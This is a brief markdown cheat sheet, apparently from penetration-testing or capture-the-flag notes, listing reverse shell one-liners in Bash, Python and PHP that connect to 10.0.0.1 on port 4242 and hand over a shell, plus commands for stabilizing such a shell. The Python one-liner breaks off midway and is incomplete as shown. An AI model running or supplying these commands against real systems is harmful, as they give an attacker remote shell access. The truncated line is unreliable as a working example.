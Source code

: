 # Reverse Shells
1. [Reverse Shell Generator](https://www.revshells.com/)

2. Bash
    ```
    bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
    ```
3. Python
    ```
    python -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("10.0.0.1",4242)
    ```
4. PHP
    ```
    php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
    ```

# Reverse Shell Stabilization
1. Via Python
    ```
    python -c 'import pty; pty.spawn("/bin/bash")'
    ```
2. Via script
    ```
    /usr/bin/script -qc /bin/bash /dev/null
    ```
